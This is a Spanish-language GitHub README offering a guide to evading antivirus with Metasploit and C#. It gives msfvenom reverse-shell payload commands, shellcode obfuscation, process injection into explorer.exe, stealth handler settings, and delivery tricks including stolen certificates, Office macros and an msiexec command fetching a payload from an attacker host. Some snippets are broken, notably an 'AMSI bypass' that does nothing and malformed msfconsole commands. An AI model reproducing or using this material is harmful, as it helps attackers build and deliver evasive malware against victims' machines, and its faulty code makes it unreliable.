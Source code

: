# JumpCode

### **Guía de Evasión de AV con Metasploit + Visual Studio Code**

#### **1. Generación del Payload (Ocultamiento Básico)**
```bash
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.X LPORT=5555 -f csharp
```
▸ **Mejora clave**:  
• Codifica 3 veces con `-e x86/shikata_ga_nai -i 3`  
• Usa payloads menos comunes: `windows/x64/meterpreter/reverse_https`  
• Añade nops: `-n 22`  

#### **2. Ofuscación del Shellcode**
```csharp
// Conversión a formato ofuscado (ejemplo real)
string payload = "*fc*e8*82...*d5";  // 1. Eliminar "0x", 2. Reemplazar con "*", 3. Quitar comas
``
▸ **Técnicas avanzadas**:  
• **Split inteligente**:  
```csharp
string[] hexParts = payload.Split(new[] { '*' }, StringSplitOptions.RemoveEmptyEntries);
```  
• **Cifrado XOR**: Añade capa de cifrado simple con clave aleatoria  

#### **3. Implementación en Visual Studio (Trucos Anti-EDR)**
```csharp
// Técnica de asignación memorya dinámica
IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

// Inyección en proceso legítimo (ej. explorer.exe)
IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetPID);
WriteProcessMemory(hProcess, mem, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, mem, IntPtr.Zero, 0, IntPtr.Zero);
```

#### **4. Configuración del Handler (Stealth Mode)**
```bash
msf6 > set EnableStageEncoding true
msf6 > set StageEncoder x64/zutto_dekiru
msf6 > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0)"
msf6 > set ExitOnSession false
```
#### **5. Abrir Msfconsole**
````bash
msfconsole
msfconsole /multi/handler
msfconsole(/multi/handler)> use/windows/shell/reverse_tcp
````
#### **6. Ejecutar el payload**
*Configurar el lhost y lport y finalmente lanzar el exploit*

![image](https://github.com/90l3m0np13/JumpCode/blob/main/JumpCode.png)

#### **7. Finalmente abrir el scrip malicioso en la máquina atacada**

![image](https://github.com/90l3m0np13/JumpCode/blob/main/shell.png)

#### **5. Técnicas de Entrega (Bypass SmartScreen)**
• **Firma digital**: Usa signtool con certificados robados/auto-firmados  
• **Plantillas Office**: Incrusta en macros (usar nombres de funciones ofuscados)  
• **LOLBAS**: Ejecución via `msiexec.exe /i http://attacker/payload.msi`  

---

### **Tabla Comparativa: Técnicas vs Eficacia**

| Técnica                  | Detección AV | Dificultad | Eficacia |
|--------------------------|--------------|------------|----------|
| Shellcode crudo          | Alta         | Baja       | 20%      |
| Ofuscación básica (*)    | Media        | Media      | 45%      |
| + XOR Encryption         | Baja         | Alta       | 75%      |
| + Inyección en procesos  | Muy baja     | Alta       | 90%      |

---

### **Recomendaciones Clave**
1. **Sleep() es tu amigo**:  
   ```csharp
   Thread.Sleep(new Random().Next(2000, 5000)); // Evita sandboxes
   ```  
2. **API Hashing**: Resuelve APIs dinámicamente con:  
   ```csharp
   [DllImport("kernel32")] static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
   ```  
3. **AMSI Bypass**: Incluye este código al inicio:  
   ```csharp
   var amsi = (new[] { 'A','m','s','i','S','c','a','n','B','u','f','f','e','r' });
   IntPtr ptr = VirtualAlloc(IntPtr.Zero, (uint)amsi.Length, 0x1000, 0x40);
   Marshal.Copy(amsi, 0, ptr, amsi.Length);
   ```
   ### **Flujo de Evasión Avanzado**
```mermaid
graph TD
    A[Generar Payload] --> B[Encoder + Packer]
    B --> C[Ofuscación en C#]
    C --> D[Inyección en Proceso]
    D --> E[C2 con HTTPS]
    E --> F[Limpieza de Artefactos]
```
